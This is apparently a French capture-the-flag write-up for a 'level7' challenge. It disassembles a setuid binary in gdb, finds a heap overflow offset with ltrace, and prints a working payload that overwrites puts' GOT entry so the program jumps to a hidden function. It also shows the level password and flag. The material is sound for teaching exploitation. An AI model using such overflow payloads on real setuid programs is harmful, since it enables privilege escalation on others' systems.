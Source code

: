 # Level7

> login:password -> *`level7:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`*
```
:~$ su level7
Password:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
---

```
:~$ pwd
/home/user/level7
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level7` :

```
:~$ ./level7
Segmentation fault (core dumped)

:~$ ./level7 test
Segmentation fault (core dumped)
```

Avec ou sans paramètre le binaire segfault.

```
:~$ gdb level7
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	    push   %ebp
   0x08048522 <+1>:	    mov    %esp,%ebp
   0x08048524 <+3>:	    and    $0xfffffff0,%esp
   0x08048527 <+6>:	    sub    $0x20,%esp
   0x0804852a <+9>:	    movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
```

Le main appel plusieurs fonctions `malloc()`:
- (+16) de `0x8` (8)
- (+42) de `0x8` (8)
- (+63) de `0x8` (8)
- (+89) de `0x8` (8)

On y voit aussi l'utilisation de deux fonctions `strcpy()` qui attendent des arguments 1 et 2. Du coup je rajoute ce petit test, car le segfault est probablement provoque par le manque d'un 2e argument.

```
:~$ ./level7 test test
~~
```

Effectivement, cette fois le binaire ne segfault pas, mais affiche `~~`. On continue donc de voir ce que le binaire contient.

On voit l'utilisation d'une fonction `fopen()`, ainsi que d'une fonction `fgets()` contenu dans une variable globale `c`, mais ne fait rien avec.

Puis au final on voit l'utilisation de `puts()` qui est la fonction qui introduit les caracteres `~~` une fois que 2 arguments ont pu etre renseigne


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x080483b0  printf@plt
(...)
0x080483c0  fgets@plt
(...)
0x080483d0  time@plt
(...)
0x080483e0  strcpy@plt
(...)
0x080483f0  malloc@plt
(...)
0x08048400  puts@plt
(...)
0x08048430  fopen@plt
(...)
0x080484f4  m
0x08048521  main
(...)

(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	    push   %ebp
   0x080484f5 <+1>:	    mov    %esp,%ebp
   0x080484f7 <+3>:	    sub    $0x18,%esp
   0x080484fa <+6>:	    movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
```

On trouve egalement une fonction `m()` non appelee qui elle contient une fonction `time()` et `printf()`

Pour notre exploit, on va utiliser le 1er appel a la fonction `strcpy()` pour overwrite l'adresse du 2e. Ce qu'on veux c'est overwrite `puts()` pour acceder a la fonction `m()` a la place

```
:~$ ltrace ./level7 AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZzAaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz test2
__libc_start_main(0x8048521, 3, 0xbffff704, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                         = 0x0804a008
malloc(8)                                                         = 0x0804a018
malloc(8)                                                         = 0x0804a028
malloc(8)                                                         = 0x0804a038
strcpy(0x0804a018, "AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPp"...)         = 0x0804a018
strcpy(0x6c4c6b4b, "test2" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

```

On trouve un offset a **20**.

On va overflow le premier argument avec l'adresse de puts dans le GOT pour mettre ensuite l'adresse de `m()` dans le second. Pour ce faire on va chercher l'adresse de puts dans le GOT.

```
:~$ gdb level7
...

(gdb) disas main
(...)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>

(gdb) disas 0x8048400
(...)
   0x08048400 <+0>:     jmp    *0x8049928

(gdb) x 0x8049928
   0x8049928 <puts@got.plt>:       0x08048406

```

On a donc l'adresse de puts dans le GOT avec `0x8049928` et l'adresse de `m()` avec `0x080484f4`

Ce qui nous donne:

```
:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1714139906
```